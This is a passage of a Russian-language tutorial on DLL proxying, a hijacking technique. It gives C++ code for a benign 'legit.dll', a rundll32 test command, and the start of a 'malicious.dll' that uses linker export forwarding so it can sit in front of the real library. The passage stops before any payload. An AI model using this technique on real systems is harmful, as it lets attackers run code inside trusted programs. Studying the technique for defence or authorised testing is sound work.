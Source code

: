     BOOL APIENTRY DllMain( HMODULE hModule,
                           DWORD  ul_reason_for_call,
                           LPVOID lpReserved
                         )
    {
        switch (ul_reason_for_call)
        {
        case DLL_PROCESS_ATTACH:
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
        }
        return TRUE;
    }

    extern "C" __declspec(dllexport) VOID exportedFunction1(int a)
    {
        MessageBoxA(NULL, "Hi from legit exportedFunction1", "Hi from legit exportedFunction1", 0);
    }

    extern "C" __declspec(dllexport) VOID exportedFunction2(int a)
    {
        MessageBoxA(NULL, "Hi from legit exportedFunction2", "Hi from legit exportedFunction2", 0);
    }

    extern "C" __declspec(dllexport) VOID exportedFunction3(int a)
    {
        MessageBoxA(NULL, "Hi from legit exportedFunction3", "Hi from legit exportedFunction3", 0);
    }

Допустим, теперь мы скомпилировали все вышесказанное в виде `legit.dll` в `c:\temp\legit.dll`. У него есть 3 экспортируемые функции: https://imgur.com/a/8ejUKrn
Чтобы подтвердить, что DLL работает, мы можем видеть, что вызов `exportedFunction1` изнутри `legit.dll` выдает всплывающее окно, подобное этому: https://imgur.com/a/sGXBl4s

    rundll32 c:\temp\legit.dll,exportedFunction1

Теперь у нас есть `legit.dll` и его таргетная функция `exportedFunction1` для hijack'а, давайте перейдем к вредоносной DLL, которая будет выполнять функцию проксирования.

### Malicious DLL
Давайте теперь создадим `malicious.dll` - мы будем использовать его для перехвата программ, 
которые вызывают функции из `c:\temp\legit.dll`. Код для `malicious.dll`:

    #include "pch.h"

    #pragma comment(linker, "/export:exportedFunction1=legit1.exportedFunction1")
    #pragma comment(linker, "/export:exportedFunction2=legit1.exportedFunction2")
    #pragma comment(linker, "/export:exportedFunction3=legit1.exportedFunction3")

    BOOL APIENTRY DllMain( HMODULE hModule,
                           DWORD  ul_reason_for_call,
                           LPVOID lpReserved
                         )
    {
    